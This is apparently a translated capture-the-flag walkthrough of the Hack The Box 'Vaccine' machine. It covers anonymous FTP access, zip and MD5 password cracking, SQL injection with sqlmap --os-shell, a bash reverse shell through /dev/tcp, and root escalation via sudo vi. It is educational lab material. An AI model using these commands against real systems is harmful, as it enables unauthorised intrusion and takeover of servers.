# 黑掉疫苗机器——黑掉盒子

> 原文：<https://medium.com/nerd-for-tech/hacking-the-vaccine-machine-hack-the-box-f230fef97405?source=collection_archive---------2----------------------->


来源:www.hackthebox.eu

在本文中，我们将在“黑盒子”中黑掉疫苗机器。我想你有一个黑盒子账户。

# 正在使用的工具:

*   [Nmap](https://nmap.org/)
*   [ftp](https://allabouttesting.org/install-ftp-server-on-kali-linux/)
*   [开膛手约翰(JTR)](https://www.openwall.com/john/)
*   [Sqlmap](https://sqlmap.org/)
*   Netcat

要开始，请连接到 Hack the box vpn。然后繁殖机器。让我们在机器上运行 nmap 扫描。nmap 扫描将允许我们看到机器上运行的服务，以及是否有任何有希望的利用。

```
$ nmap -sV -sC -O -F [target_ip]
PORT         STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

这台机器上正在运行 ftp 服务。结果还显示:

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
```

我们可以看到 FTP 服务中的错误配置。所以任何匿名的 ftp 登录都是允许的！这很好，因为现在我们可以简单地连接到 FTP 服务。我们现在将通过找到正确的用户名，然后不输入密码来尝试暴力登录。

```
A list of common usernames:
root
admin
Administrator
Anonymous
user
```

连接到 FTP 服务的命令:

```
ftp [target_ip] [port]
```

我们可以看到，如果我们输入姓名匿名，那么我们不需要输入密码！



让我们列出该目录中的所有文件:

```
ftp> ls -la
drwxr-xr-x    2 0        0            4096 Apr 13  2021 .
drwxr-xr-x    2 0        0            4096 Apr 13  2021 ..
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
```

有一个有趣的文件叫做 backup.zip。让我们下载它，看看它包含了什么。要下载此文件:

```
get backup.zip
```

键入以下命令退出连接:

```
exit
```

让我们试着解压这个 zip 文件。



看起来我们需要一个密码。幸运的是，我们可以使用一个叫做开膛手约翰的工具来破解这个受密码保护的 zip 文件。首先，我们将使用 zip2john 生成一个散列。

> 哈希值**是对应于文件**内容的唯一值。哈希不是通过文件名、扩展名或其他名称来标识文件的内容，而是为文件的内容分配一个唯一的值。
> -docs.microsoft.com

在您的终端中运行:

```
zip2john backup.zip > hack.txt
```

这将创建散列并将其保存在一个名为 hack.txt 的文件中。现在我们需要破解这个散列来获得密码。我们会用开膛手约翰。在您的终端中键入:

```
john hack.txt --show
```

结果:

```
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
```

这里显示的密码是“741852963”，让我们键入它。让我们输入密码，然后提取出来。我们将检查 index.php 的内容。



我们可以看到用户名和密码已经存在。但是，密码已被转换为 MD5 哈希值，如下所示:

```
md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3"
```

MD5 是一种散列函数。我们可以使用[https://md5.gromweb.com/](https://md5.gromweb.com/)来反转这个散列函数。让我们看看结果:



所以密码是 qwerty789。让我们试着登录网站。



我们可以看到网站是素颜的。但是有一个搜索栏。如果我们输入随机的东西，然后按回车键，那么什么都不会显示。然而，如果搜索栏是空的，我们仍然点击搜索按钮，那么整个表将再次显示。让我们检查一下它是否容易受到 SQL 注入的攻击。我们将在搜索框中键入以下内容:

```
';--[Replace this with any random text]
```

这将转换为:

```
SELECT * FROM cars WHERE name ilike '***';--[RANDOM TEXT THAT WE PUT IN SEARCH]***
```

斜体部分是我们的搜索查询。我们首先关闭了引号，以防止任何内容被搜索到，我们使用“；”关闭了该命令，因为每个 SQL 查询都以“；”结尾。然后我们用“- -”表示这之后的任何东西都是注释。它不是代码，也不会被视为命令。基本上，我们什么也没有寻找。预期的结果应该是再次显示整个表。如果没有显示出来，那么它可能不容易受到 SQL 注入的攻击。



我们的查询成功了！这证明了网站容易受到 sql 注入的攻击。正常的网站可能会显示错误信息。我们可以使用 sqlmap 工具，尝试看看是否可以通过 sql 注入来执行命令。这意味着检查我们是否可以在服务器上运行操作系统命令。使用命令

```
**>** sqlmap -u "[http://[IP OF TARGET]/dashboard.php?search=](http://10.129.161.91/dashboard.php?search=)Elixir" -p search --os-shell --cookie 'PHPSESSID=Replace_this_text_with_the_value_for_PHPSESSID'
```

-u 参数指定文本的 URL。我们添加“search=”是因为当我们在网站上搜索任何内容时，所有内容都会被添加到“search=”参数中。仔细观察上图中的地址栏。“— os-shell”将检查我们是否可以执行命令。我们还需要添加我们的 cookie 信息，因为如果我们尝试不添加它，sqlmap 将被重定向到登录页面。要获得 Firefox 上的 cookie 信息，只需右键单击，然后按 inspect elements。转到存储选项卡，您将在那里找到您的 cookies:



让我们运行这个命令。他们可能会问这些提示。照我输入的那样输入。



因为我们有了数据库管理系统。



这个也是 Y。



根据我们的测试，我们知道“search”参数是易受攻击的，所以没有必要搜索其他任何东西。

结果:



我们走吧！现在，我们可以在数据库管理系统中运行操作系统命令。现在我们不能用这个 shell 做太多事情，所以让我们用 netcat 获得一个反向连接。首先在您的主机中打开一个新的终端，并键入:

```
**>** nc -lvnp 3000
```

这将侦听任何 ip 地址和端口号为 3000 的传入连接。在 sqlmap 操作系统外壳中，键入:

```
**os-shell>** bash -c 'bash -i >& /dev/tcp/[YOUR IP]/3000 0>&1'
```

确保使用 VPN 给您的 ip 地址。在您的主机上运行 ifconfig。然后选择仅在连接到 HTB vpn 时出现的 ip 地址。按回车键，当它询问时输入“y”。回到您的主机，现在您应该看到最终会出现以下内容:

```
**postgres@vaccine:/var/lib/postgresql/11/main$** 
```

我们有反向连接！目前，我们的反向连接是一个“哑”壳。让我们把它升级到一个交互式的 shell，这样我们就可以清空我们的屏幕，做其他你可以在普通终端上做的事情。在终端中输入以下内容:

```
**postgres@vaccine:/var/lib/postgresql/11/main$** python3 -c 'import pty;pty.spawn("/bin/bash")'
```

然后按 Ctrl+Z 键将此反向连接置于后台。之后，在终端中输入以下命令:

```
stty raw -echo; fg
```

“；”允许我们在同一行上运行多个命令。使用 stty raw -echo，命令后的输入看起来很奇怪，这就是为什么我们将立即执行第二个命令。“fg”将恢复我们之前在后台创建的反向连接。在终端中键入以下内容后:

```
export TERM=xterm
```

(注意:如果您的终端在 fg 后看起来很奇怪，请不要担心。一旦你退出了这个反向连接。输入“reset”使你的终端恢复正常。)

现在我们有了一个合适的 tty 外壳。要测试这一点，只需点击 clear 命令，它应该会清除屏幕。

搜索用户标志的时间到了。在终端中键入以下内容:

```
find / -name "user.txt" 2>/dev/null
```

这将在目标系统中查找文件，搜索文件“user.txt”。2>/dev/null 防止显示负面结果。结果:

```
/var/lib/postgresql/user.txt
```

类型:

```
cat /var/lib/postgresql/user.txt
```

您将看到用户标志。现在是时候寻找根旗了。但在此之前，我们需要找到 root 用户的密码。我们将不得不这样做，手动检查每个文件。/var/www/html 通常是包含网站文件的文件夹。我们去看看。

```
**postgres@vaccine:/var/www$** cd /var/www/html
**postgres@vaccine:/var/www$** ls
**bg.png        dashboard.js** index.php    style.css
**dashboard.css ** **dashboard.php ** **license.txt**
```

有底气的五档都是新的。让我们首先检查 dashboard.php:

```
**postgres@vaccine:/var/www$** cat dashboard.php
```

当您向下滚动文件时，您会看到:



我们有密码了！就是:“P@s5w0rd！”

请注意，如果连接现在意外关闭，我们不必担心，因为我们现在可以简单地通过 ssh 进入系统，因为我们有一个密码，并且计算机上的一个 ssh 端口也是打开的。在命令提示符下键入以下内容:

```
**$**ssh postgres@[Target_IP]
```

然后，当它要求时，输入密码。请注意，您将看不到正在键入的密码，但可以肯定它正在被输入。您应该会看到类似这样的输出:



让我们看看作为这个用户我们可以运行什么。

```
**postgres@vaccine:~$** sudo -l
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpassUser postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

所以我们可以运行这个命令:

```
/bin/vi /etc/postgresql/11/main/pg_hba.conf
```

作为当前用户。Vi 是为 unix 系统提供的一个旧的文本编辑器。根据 [gtfobins.github.io](https://gtfobins.github.io/gtfobins/vi/#sudo) 的说法，有一种方法可以作为根用户滥用这个来获得一个 shell。首先，让我们运行这个命令，并在询问时输入我们之前找到的 postgres 密码。



它会打开这样一个文件。现在只需运行这些命令。无论您键入什么，都应该显示在底部:

```
:set shell=/bin/sh
:shell
```

输出:



类型:

```
**#** whoami
root
**#** id
uid=0(root) gid=0(root) groups=0(root)
```

我们现在是根用户了！让我们搜索根标志:

```
**#** find / -name root.txt 2>/dev/null
/root/root.txt
**#** cat /root/root.txt
```

我们有根旗！

这就是本文的全部内容。我希望你喜欢它。如果你有，那么请鼓掌并分享给所有其他可能发现这有用的人。感谢阅读！